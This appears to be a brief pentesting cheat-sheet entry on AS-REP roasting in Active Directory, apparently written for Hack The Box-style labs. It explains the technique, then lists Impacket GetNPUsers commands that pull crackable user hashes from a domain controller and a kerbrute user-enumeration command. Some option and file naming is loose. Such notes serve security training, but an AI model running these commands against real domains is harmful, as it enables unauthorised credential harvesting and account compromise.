 
In this context, GetNPUsers is used to exploit the AS-REP (Authentication Service Response) protocol to request tickets without having the need to provide the account's password. **It targets user accounts that have the "Do not require Kerberos preauthentication" flag set, allowing the retrieval of credentials that can be cracked offline.**


**will give service user**
```sh
impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161
```

**will bring user hashes**

```sh
impacket-GetNPUsers joshi.local/ -dc-ip 192.168.1.100 -u user-Principal-Name-for-kerberoasting.txt
```


```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt 
```
